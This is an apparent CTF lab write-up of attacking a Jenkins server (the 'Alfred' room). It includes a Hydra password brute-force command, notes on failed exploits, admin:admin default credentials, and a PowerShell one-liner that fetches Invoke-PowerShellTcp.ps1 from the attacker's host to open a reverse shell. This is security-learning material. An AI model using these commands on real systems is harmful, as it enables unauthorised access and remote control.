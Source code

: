     command run: 
    
    hydra -l Alfred -P /usr/share/wordlists/rockyou.txt 10.10.9.157 http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect"
    
    ![image.png](Alfred%20606c6118a0a04d0cb4898357e6ef4740/image%207.png)
    
    Note to self: get better at using Hydra u fool!
    
    - Next thing I did was dive into Nishang to see what I could utlize for initial access. But that ended up bieng a dead end as far as I could tell due to everything bieng for post exploitation.
    - I attempted to use the exploit from Exploit DB using curl on IIS 7.5 on port 80 which was an authentication bypass but it didn't work. I feel like there's a way to get this exploit to work but I'm not smart enough yet to do it. Will maybe try it again in the future.
    - The exploit from exploit DB which was an information disclosure for the various Jetty 9.4 versions to access a sensitive document called web.xml was also unsuccessful using curl. Again with the above I may try it in the future when my brain grows larger.
    - I scoured google to attempt to gain a better understanding of how either of these services could be exploited. found another GitHub repository on exploiting IIS right here: [https://github.com/reewardius/iis-pentest/blob/main/README.md](https://github.com/reewardius/iis-pentest/blob/main/README.md)
    
    Nothing came of that. 
    
    - I next popped open Metasploit and looked up both IIS 7.5 and Jetty. I found some potential exploits that did not match my versions when I ran them and thus were also a dead end.
    - Talked with my only friend ChatGPT about why nothing was working… then it mentioned something:
    
    ### ChatGPT Said:
    
    **Default or Weak Credentials**: Jenkins installations sometimes come with default or weak credentials. If you can brute force or guess the credentials, you might gain access. Common default credentials include `admin:admin` or `jenkins:jenkins`.
    
    Well then, guess what FINALLY worked!? admin:admin. I wonder why Hydra didnt pick that up. 
    
    ![image.png](Alfred%20606c6118a0a04d0cb4898357e6ef4740/image%208.png)
    
    Now that I have access to interacting with the target , it is time to return to the enumeration stage!
    
- Post Exploitation
    
    Find a feature of the tool that allows you to execute commands on the underlying system. When you find this feature, you can use this command to get the reverse shell on your machine and then run it: *powershell iex (New-Object Net.WebClient).DownloadString('http://your-ip:your-port/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port your-port*
    
    You first need to download the Powershell script and make it available for the server to download. You can do this by creating an http server with python: *python3 -m http.server*
    
    According to the room instuctions, im suppose to look for something so I can execute commands on the underlying system, so lets look around.
    
    ### Internal Enumeration:
    